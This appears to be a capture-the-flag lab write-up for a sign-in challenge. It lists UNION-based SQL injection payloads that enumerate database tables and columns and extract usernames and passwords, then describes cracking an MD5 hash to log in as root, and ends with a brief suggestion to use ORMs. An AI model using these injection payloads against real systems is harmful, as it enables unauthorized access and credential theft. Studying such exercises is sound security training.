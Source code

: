 # 01_sign_in

### Instructions

This query returns all available columns in the db
`1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns`
And this query allows to check all tables
`1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.columns`

We have noticed that members page has sql search input
Using next query we get users creditianals
`1 AND 1=2 UNION SELECT username, password FROM Member_Brute_Force.db_default`
Decripting password of root user using MD5 we got the password: shadow. We logged in in the sign_in page and we got the flag.

### How to prevent

From my point of view the best solution is using ORMs.
Btw it lets avoid using direct sql from browser
